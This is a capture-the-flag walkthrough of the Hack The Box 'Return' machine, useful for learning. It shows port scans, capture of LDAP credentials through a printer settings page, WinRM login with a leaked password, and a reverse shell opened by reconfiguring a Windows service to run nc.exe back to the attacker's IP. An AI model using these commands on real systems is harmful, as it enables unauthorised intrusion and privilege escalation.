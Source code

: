 # [Return](https://app.hackthebox.com/machines/Return)

```bash
nmap -p- --min-rate 10000 10.10.11.108 -Pn 
```

![Alt text](img/image.png)


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.11.108 -Pn 
```

![Alt text](img/image-1.png)


There is page called 'settings.php'.

![Alt text](img/image-2.png)


Let's inject Server Address via our ip address.

1.First, I will start listener.
```bash
nc -lnvp 389
```
![Alt text](img/image-4.png)

2.Second, I wrote my ip address into form.

![Alt text](img/image-3.png)


From here, I grab credentials of `svc-printer` user.

svc-printer: 1edFg43012!!


Let's enumerate `Winrm` that our credentials can get shell or not.

```bash
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![Alt text](img/image-5.png)


Let's connect into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

user.txt

![Alt text](img/image-6.png)


I enumerate this user via `services` command to see what services `svc-backup` user have change permission.

![Alt text](img/image-7.png)


I will take service called '**VGAuthService**'.

1.Now, I will upload malicious binary `nc.exe` into machine. (in C:\ProgramData\nc.exe)

2.Then, I change configuration of this service as below.
```bash
sc.exe config VGAuthService binPath="C:\ProgramData\nc.exe -e cmd.exe 10.10.14.5 1337"
```

3.I just do `stop` and `start` to make configurations enabled.
```bash
sc.exe stop VGAuthService
sc.exe start VGAuthService
```

![Alt text](img/image-8.png)


I got reverse shell from port (1337).

![Alt text](img/image-9.png)

root.txt

![Alt text](img/image-10.png)